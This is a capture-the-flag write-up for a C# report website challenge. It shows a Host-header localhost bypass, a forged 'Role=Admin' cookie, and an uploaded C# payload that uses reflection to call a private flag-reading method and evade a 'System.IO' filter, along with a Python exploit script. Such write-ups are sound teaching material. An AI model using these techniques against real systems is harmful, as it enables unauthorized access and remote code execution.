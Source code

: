 # Reports

![webpage](image.png)

This challenge is a C# based webpage which uses SQLite for datastorage. The user can choose a report from a dropdown, and the selected report will be executed on the server and displayed to the user. The flag is encrypted and located in a flag.txt file on disk.

## Initial recon

From reading the sourcecode we can see in DataController.cs there is an endpoint at /api/Data which should let us upload a new report. However, it checks that the report is uploaded from localhost, is uploaded by an admin, and doesn't contain "System.IO" which can be used to read files from the disk.

In SecurityController.cs we see an (too) obvious SQL injection vulnerability in the login method, however this was just a decoy. If we look further we see that upon successfull login the server tells the client to set a browser cookie called "Role" to the value "Admin".

In the SQLite database we see a table called Reports which has a field called "code", which contains C# sourcecode. It seems like this code is compiled and executed whenever the selected report is set to run.
![reports table](image-1.png)

Also, there is a class in the C# project called FlagModel. It has a method, GetFlag, which does all of the heavy lifting when it comes to reading the flag.txt file and decrypting the content. However, the GetFlag method is marked as private.

Conclusion from initial recon is to bypass the security to upload a custom report which should leak the flag.

## Bypassing security

The first hinderance, that reports can only be uploaded from localhost and reports.ept.gg can be bypassed using the Host-header.

The second hinderance, that you have to have the Admin role, can be bypassed by just adding a cookie Role=Admin.

With this in place we can upload custom C# code using

```http
POST http://io.ept.gg:52137/api/Data
Host: reports.ept.gg:34177
Content-Type: application/json
Cookie: Role=Admin

{
    "report": "EvilReport",
    "id": "5",
    "name": "EvilReport",
    "code": "(put C# code here)"
}
```

## Uploading evil report

Next we need to upload C# code which lets us get the flag. One hinderance is that we cannot have "System.IO" in our sourcecode.

We wrote a C# class which creates an instance of the FlagModel class. However, since the GetFlag method is marked as private, we couldn't just call it directly. Instead we used C# Reflection to invoke the private method, which got the content from flag.txt and decrypted the flag for us.

The final solution consists of two files. `payload.cs` which is just a normally formatted C# file, and `solve.py` which is a Python script which will upload the C# code to the server.

payload.cs

```C#
using System;
using WebSite.Models;
using System.Reflection;

namespace WebSite.Models
{
    class ReportTableModelData
    {
        public ReportDataModel CreateModel(string conection)
        {
            var data = new ReportDataModel();

            Type type = typeof(FlagModel);
            var flagmodel = Activator.CreateInstance(type);
            MethodInfo method = type.GetMethod("GetFlag", BindingFlags.NonPublic | BindingFlags.Instance);
            var flag = (string) method.Invoke(flagmodel, null);
            
            data.Title = flag;
            return data;
        }
    }
}
```

solve.py
```py
import requests

# Read file
f = open(r"payload.cs", "r")
code = f.read().replace("\\r\\n", "\n")

# Send request
url = "http://io.ept.gg:52137/api/Data"
headers = {
    "Host": "reports.ept.gg:34177",
    "Content-Type": "application/json",
    "Cookie": "Role=Admin"
}
body = {
    "report": "EvilReport",
    "id": "6",
    "name": "EvilReport",
    "code": code
}

response = requests.post(url, json=body, headers=headers)
print(response.status_code)
```

## Flag

After uploading our evil report we can execute it and see the flag like this

![flag](image-2.png)

